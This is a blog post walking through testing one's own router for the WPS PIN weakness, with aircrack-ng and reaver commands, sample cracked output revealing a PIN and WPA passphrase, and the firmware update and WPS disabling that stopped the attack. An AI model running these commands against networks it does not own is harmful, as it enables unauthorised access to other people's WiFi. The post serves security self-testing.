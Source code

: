 ```yaml
---
title: "Is My Access Point Vulnerable To A WPS Attack?"
slug: access-point-vulnerable-wps-attack
date: 2017-08-23 00:00:00
---
```


In order to test this, you **must** have a WiFi card with monitor mode. The [
Penguin Wireless N USB Adapter for GNU / Linux (TPE-N150USB)](https://www.thinkpenguin.com/gnu-linux/penguin-wireless-n-usb-adapter-gnu-linux-tpe-n150usb) worked well for me.

![TPE-N150USB](https://www.thinkpenguin.com/files/wireless-n-usb-adapter-zero-1.jpg)

ThinkPenguin USB WiFi cards typically use Atheros chipsets, and because ThinkPenguin uses predictable chipsets you can be certain [you _will_ receive an Atheros chipset for this device](https://www.thinkpenguin.com/about). With this card, you can use monitor mode. The range not be great, but if you are testing the security of your own home network, range should not matter much.

Install the necessary tools.

```
sudo apt-get install \
	aircrack-ng \
	reaver
```

Disable your WiFi interface.

```
sudo ifconfig wlan0 down
```

Enable monitor mode for your WiFi interface.

```
sudo airmon-ng start wlan0
```

Note the name of the monitoring device output from the command above. In my case, it is `wlan0mon`.

Kill processes that may conflict with airmon tools.

```
sudo airmon-ng check kill
```

Scan for a network. `PWR` indicates signal strength. A number like `-20` is superior to a number like `-74`. The greater number is superior, and `-20` is greater than `-74`.

```
sudo airodump-ng wlan0mon
```

Try to test for the WPS vulnerability against the AP using `reaver`, which is specifically designed for this exploit. Specify your device's channel with `-c` and the BSSID (mac of the router) with `-b`.

```
sudo reaver \
	-i wlan0mon \
	-b 22:46:BA:34:CB:18 \
	-vv \
	-L \
	-N \
	-d 30 \
	-T 1
```

If your access point is vulnerable, the WPS pin will eventually be discovered.

```
[+] Pin cracked in 273832 seconds
[+] WPS PIN: '29701453'
[+] WPA PSK: 'thepassword123'
[+] AP SSID: 'MyAccessPoint'
```

Success!

_If `reaver` only shows you the PIN and not the `PSK`, you can find it like so._

```
sudo reaver \
	-i wlan0mon \
	-p 29701453 \
	-b 22:46:BA:34:CB:18 \
	-vv
```

My router was compromised in 273832 seconds, which is just over 3 days.

My [Netgear WNR2000v3](https://www.netgear.com/support/product/WNR2000v3.aspx) was then updated to the latest firmware as listed here.

```
Current Firmware Version:     V1.0.1.26
New Firmware Version:         V1.1.2.18

Current GUI Language Version: V1.0.0.55
New GUI Language Version:     V1.0.0.175
```

This upgrade automatically enables a 3 second lockout for failed WPS attempts.

Unfortunately, `reaver` did **not** seem to care, and went to work hacking the PIN just as it did before. It was not affected by that lockout setting.

I then disabled WPS entirely in the admin interface. As [many](https://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver) [articles](https://arstechnica.com/information-technology/2012/01/hands-on-hacking-wifi-protected-setup-with-reaver/) [mention](https://www.howtogeek.com/176124/wi-fi-protected-setup-wps-is-insecure-heres-why-you-should-disable-it/), some routers don't _actually_ disable WPS even if the interface implies it is disabled.

In cases like that, it seems the only reliable preventative measure is to either get a router that actually disables WPS, or install [DD-WRT](https://www.dd-wrt.com/site/), [OpenWRT](https://openwrt.org/), or [LEDE](https://lede-project.org/) on your router.

Fortunately, this firmware upgrade along with disabling WPS actually worked in my case, and `reaver` was **unable to determine my PIN**.

# Citations

* [Constant receive timeout (0x03), or WPS transaction fail (0x02) with rtl8187](https://github.com/shift/reaver-wps/issues/183)
* [WPS Cracking with Reaver](https://www.pwnieexpress.com/blog/wps-cracking-with-reaver)
* [How to Crack a Wi-Fi Network's WPA Password with Reaver](https://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver)
* [Hands-on: hacking WiFi Protected Setup with Reaver](https://arstechnica.com/information-technology/2012/01/hands-on-hacking-wifi-protected-setup-with-reaver/)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [How do I install bully and mdk3 on Ubuntu 16.04 (Xenial Xerus)?](https://askubuntu.com/questions/867071/how-do-i-install-bully-and-mdk3-on-ubuntu-16-04-xenial-xerus)
* [aireplay invalid destination MAC address](https://forum.aircrack-ng.org/index.php?topic=1495.0)
